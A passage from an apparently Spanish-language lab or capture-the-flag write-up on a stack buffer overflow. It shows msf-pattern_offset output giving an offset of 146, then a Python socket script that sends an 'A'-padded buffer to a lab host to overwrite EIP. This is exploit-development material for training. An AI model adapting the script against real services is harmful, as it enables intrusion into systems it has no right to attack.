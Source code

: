 Teniendo los caracteres en hexadecimal de `39654138`, haremos uso de `msf-pattern_offset` para saber en que posición se encuentra y así obtener el offset

```php
❯ msf-pattern_offset -q 39654138
[*] Exact match at offset 146
```

Nos indica que los carácter entonces el numero de offset es de 146. Teniendo en cuenta esto 

```python
#/usr/bin/python3
import socket
ip = "192.168.98.24"
port = 31337
prefix = ""
offset = 146
overflow = "A" * offset
retn = ""
padding = "BBBB"
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
	s.connect((ip, port))
	print("Sending evil buffer...")
	s.send(bytes(buffer + "\r\n", "latin-1"))
	print("Done!")
except:
	print("Could not connect.")
```

Realizando algunas modificaciones de script en python e ingresando `BBBB` luego de las 146 'A' podremos observar que podemos sobre escribir el `EIP`  

![20231115002945.png](20231115002945.png)
